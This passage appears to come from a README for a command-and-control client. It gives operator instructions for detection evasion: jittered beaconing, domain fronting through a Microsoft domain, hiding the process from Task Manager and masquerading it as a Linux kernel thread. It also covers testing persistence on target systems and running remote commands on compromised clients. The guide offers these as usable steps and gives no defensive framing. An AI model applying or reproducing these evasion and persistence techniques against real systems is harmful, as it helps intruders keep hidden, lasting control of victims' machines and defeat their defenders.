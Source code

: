 ## 🛡️ Detection Evasion

### **Traffic Patterns**
```bash
# Randomize beacon intervals
./c2_client --jitter 30  # 30% randomization

# Use legitimate-looking domains
./c2_client --server update.microsoft.com --host-header hidden.domain.com
```

### **Process Hiding**
```bash
# Windows: Hide process from Task Manager
./c2_client --stealth-mode advanced

# Linux: Change process name
./c2_client --process-name "[kworker/0:1]"
```

## 🧪 Testing Procedures

### **Pre-Deployment Testing**
```bash
# 1. Run test suite
./test.sh

# 2. Verify encryption
./test_crypto.sh

# 3. Network connectivity test
./test_network.sh

# 4. Persistence test
./test_persistence.sh
```

### **Post-Deployment Verification**
```bash
# 1. Check client connections
C2> clients

# 2. Test basic commands
C2> exec client_id whoami
C2> exec client_id ipconfig

# 3. Verify persistence
# Reboot target system and check reconnection

# 4. Test stealth features
# Check if client is visible in process lists
```
